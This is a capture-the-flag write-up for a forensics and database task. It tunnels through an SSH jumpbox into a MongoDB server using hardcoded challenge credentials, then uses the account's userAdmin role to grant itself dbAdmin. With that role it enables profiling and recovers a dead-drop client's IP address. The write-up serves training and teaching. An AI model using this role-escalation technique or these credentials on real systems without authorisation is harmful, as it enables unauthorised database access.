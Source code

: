 # Task 6 - Follow the Data, Part 2
![Static Badge](https://img.shields.io/badge/Categories-Forensics%2C%20Databases%2C%20Exploitation-blue)
![Static Badge](https://img.shields.io/badge/Points-800-light_green)

> While you were working, we found the small U.S. cellular provider which issued the SIM card recovered from the device: Blue Horizon Mobile.
> 
> As advised by NSA legal counsel we reached out to notify them of a possible compromise and shared the IP address you discovered. Our analysts explained that sophisticated cyber threat actors may use co-opted servers to exfiltrate data and Blue Horizon Mobile confirmed that the IP address is for an old unused database server in their internal network. It was unmaintained and (unfortunately) reachable by any device in their network.
> 
> We believe the threat actor is using the server as a "dead drop", and it is the only lead we have to find them. Blue Horizon has agreed to give you limited access to this server on their internal network via an SSH "jumpbox". They will also be sure not to make any other changes that might tip off the actor. They have given you the authority to access the system, but unfortunately they could not find credentials. So you only have access to the database directly on TCP port 27017
> 
> Use information from the device firmware, and (below) SSH jumpbox location and credentials to login to the database via an SSH tunnel and discover the IP address of the system picking up a dead drop. Be patient as the actor probably only checks the dead drop periodically. Note the jumpbox IP is 100.127.0.2 so don't report yourself by mistake
> 
> Downloads:
> - SSH host key to authenticate the jumpbox (optional) ([jumpbox-ssh_host_ecdsa_key.pub](./downloads/jumpbox-ssh_host_ecdsa_key.pub))
> - SSH private key to authenticate to the jumpbox: user@external-support.bluehorizonmobile.com on TCP port 22 (jumpbox.key)
> ---
> Prompt:
> - Enter the IP address (don't guess)

## Solution
Using MongoDB information we found in Task 5, we can now connect to the server where the device is sending its exfiltration data. We'll first set up port forwarding on the jumpbox so that our local port `27017` is mapped to port `27017` on the exfiltration server located at `100.102.144.34`. We'll then adjust the connection string so that it uses our loopback address and connect through the jumpbox using `mongosh`.

```
ssh -i jumpbox.key -L 27017:100.102.144.34:27017 user@external-support.bluehorizonmobile.com
mongosh mongodb://maintenance:ed4faa4d05f294@127.0.0.1:27017/?authSource=snapshot-28c5e8e20fcc
```

Once we have a MongoDB shell, we can check which databases are present, switch to the only one available, and then check the collections. We find a collection named `files` that looks like it might be interesting.

```
test> show dbs
snapshot-28c5e8e20fcc  72.00 KiB
test> use snapshot-28c5e8e20fcc
switched to db snapshot-28c5e8e20fcc
snapshot-28c5e8e20fcc> show collections
files
```

We can search the `files` collection to see if there are any records, but it appears to be empty.

```
snapshot-28c5e8e20fcc> db.files.find({})
```

We can use the `insertOne` function to add our own record and then search the collection again to confirm it was inserted.

```
snapshot-28c5e8e20fcc> db.files.insertOne({test: "test"})
{
  acknowledged: true,
  insertedId: ObjectId('6597cf61e66f6520eaa3e652')
}
snapshot-28c5e8e20fcc> db.files.find({})
[ { _id: ObjectId('6597cf52e66f6520eaa3e652'), test: 'test' } ]
```

Waiting a minute or two and then checking the collection again reveals it's now empty. Knowing this, we can conclude that the threat actor is connecting to the database, retrieving any records, and then deleting thing. Now we need to find a way to get more information on their connection and find the originating IP address. Searching through the docs for potentially useful functionality will eventually lead us to the [db.setProfilingLevel function](https://www.mongodb.com/docs/manual/reference/method/db.setProfilingLevel/), but attempting to run this will give us a permissions error.

```
snapshot-28c5e8e20fcc> db.setProfilingLevel(2)
MongoServerError: not authorized on snapshot-28c5e8e20fcc to execute command { profile: 2, lsid: { id: UUID("333f4ec9-5cfe-42a5-86bb-fe7e99175a32") }, $db: "snapshot-28c5e8e20fcc" }
```

It's possible to check our own permissions using the command `db.getUser("maintenance")`.

```
snapshot-28c5e8e20fcc> db.getUser("maintenance")
{
  _id: 'snapshot-28c5e8e20fcc.maintenance',
  userId: UUID('1237a1f5-00ef-4712-9985-4317d865d417'),
  user: 'maintenance',
  db: 'snapshot-28c5e8e20fcc',
  roles: [
    { role: 'readWrite', db: 'snapshot-28c5e8e20fcc' },
    { role: 'userAdmin', db: 'snapshot-28c5e8e20fcc' }
  ],
  mechanisms: [ 'SCRAM-SHA-1', 'SCRAM-SHA-256' ]
}
```

Based on the above, we see we have the `userAdmin` role, which [according to the MongoDB docs](https://www.mongodb.com/docs/manual/reference/built-in-roles/), gives us the ability to grant additional roles. We can use this to elevate our privileges by granting ourselves the `dbAdmin` role.

```
snapshot-28c5e8e20fcc> db.grantRolesToUser("maintenance", [ { role: "dbAdmin", db: "snapshot-28c5e8e20fcc" } ])
{ ok: 1 }
snapshot-28c5e8e20fcc> db.getUser("maintenance")
{
  _id: 'snapshot-28c5e8e20fcc.maintenance',
  userId: UUID('1237a1f5-00ef-4712-9985-4317d865d417'),
  user: 'maintenance',
  db: 'snapshot-28c5e8e20fcc',
  roles: [
    { role: 'readWrite', db: 'snapshot-28c5e8e20fcc' },
    { role: 'userAdmin', db: 'snapshot-28c5e8e20fcc' },
    { role: 'dbAdmin', db: 'snapshot-28c5e8e20fcc' }
  ],
  mechanisms: [ 'SCRAM-SHA-1', 'SCRAM-SHA-256' ]
}
```

With our new permissions, it's now possible for us to adjust the profiling level of the database using the `db.setProfilingLevel()` function. Setting it to a value of either `1` or `2` will enable the profiler so that it collects additional details about any operations performed on the database. We'll set it to level `2` and then wait for the threat actor to connect again. We can then check the profiling output by searching the `system.profile` collection as shown below.

```
 db.setProfilingLevel(2)
 db.system.profile.find()
 [
 ...
    {
        op: 'query',
        ns: 'snapshot-28c5e8e20fcc.files',
        command: {
        find: 'files',
        filter: {},
        lsid: { id: UUID('bdb1d7dd-4a68-4d84-8f5f-e697007c4bfe') },
        '$db': 'snapshot-28c5e8e20fcc'
        },
        keysExamined: 0,
        docsExamined: 0,
        cursorExhausted: true,
        numYield: 0,
        nreturned: 0,
        queryHash: '17830885',
        queryFramework: 'classic',
        locks: {
        FeatureCompatibilityVersion: { acquireCount: { r: Long('1') } },
        Global: { acquireCount: { r: Long('1') } },
        Mutex: { acquireCount: { r: Long('1') } }
        },
        flowControl: {},
        responseLength: 116,
        protocol: 'op_msg',
        millis: 0,
        planSummary: 'COLLSCAN',
        execStats: {
        stage: 'COLLSCAN',
        nReturned: 0,
        executionTimeMillisEstimate: 0,
        works: 1,
        advanced: 0,
        needTime: 0,
        needYield: 0,
        saveState: 0,
        restoreState: 0,
        isEOF: 1,
        direction: 'forward',
        docsExamined: 0
        },
        ts: ISODate('2023-09-29T07:39:19.611Z'),
        client: '100.89.114.48',
        allUsers: [ { user: 'maintenance', db: 'snapshot-28c5e8e20fcc' } ],
        user: 'maintenance@snapshot-28c5e8e20fcc'
    }
]
```

Within the profiling output, we'll find the threat actor's query command for checking the `files` collection along with their IP address, `100.89.114.48`, listed in the `client` field.

